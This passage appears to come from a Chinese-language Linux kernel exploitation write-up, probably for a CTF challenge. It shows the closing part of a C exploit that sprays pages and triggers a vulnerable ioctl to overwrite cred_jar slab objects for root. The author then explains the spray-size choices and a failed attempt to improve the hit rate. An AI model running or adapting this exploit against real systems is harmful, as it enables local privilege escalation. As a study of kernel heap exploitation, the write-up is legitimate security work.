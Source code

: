 ```c

    puts("\033[32m[+] Start to spray vulnerabilities\033[0m");
    for (int i = 0; i < INITIAL_PAGE_SPRAY; i += 2) {
        spraypage_send(FREE, i);
    }

    *(uint32_t *)(&data[0x200-6]) = 1;
    for (int i = 0; i < VULN_SPRAY; i++) {
        ioctl(fd, 0xcafebabe);
        edit(i, 0x200, data);
    }

    puts("\033[32m[+] Let's roll\033[0m");

    write(rootfd[1], data, sizeof(data));
    sleep(1000000000);
}
```

注意它仍然有概率失败。



现在，让我们来看一看这些数字的选择：

- INITIAL_PAGE_SPRAY：我们喷了 1000 个页面，这显然有助于我们耗尽 low-order 页面，拆出 high-order 页面。注意，这里我们首先肯定也会先把 low-order 的页面放入 low-order 的 free-area 里，然后才会把奇数的页面放入。
- CRED_JAR_SPRAY: 我们喷了 512 个。一个 cred_jar 是 32 个 slub，这就相当于 0x10 个页面，其实很少，可以多喷一些，不过由于我们 VULN_SPRAY 被限定了 400 个，也就是 50 个页，所以其实太大也没用，够不到了。
- VULN_SPRAY: 给 400 个我们就喷 400 个吧

:::info

如果考虑优化，我们还能进一步提升命中率

在 PAGE 这里，我们可以确保 free 的 page 都是 Contiguous Pages —— 即所有我们用来分配 vuln 和 victim 的 slub page 都是从 high-order 拆出来的。

想要做到这样，我们首先耗尽 low-order pages，紧接着只需要在释放页面的时候确保是 Contiguous Page 即可，也就是说，我们可以增加一个常量 DRAIN_PAGES，用于存放不连续的页面，然后在他之后的 PAGE_SPRAY 个页面，我们认为是连续的，并且进行释放和重用。

然而实际尝试之后，我发现命中率并没有提升，甚至大幅度下降了。我猜测应该是内核噪声占用了这些 slub 的原因？

:::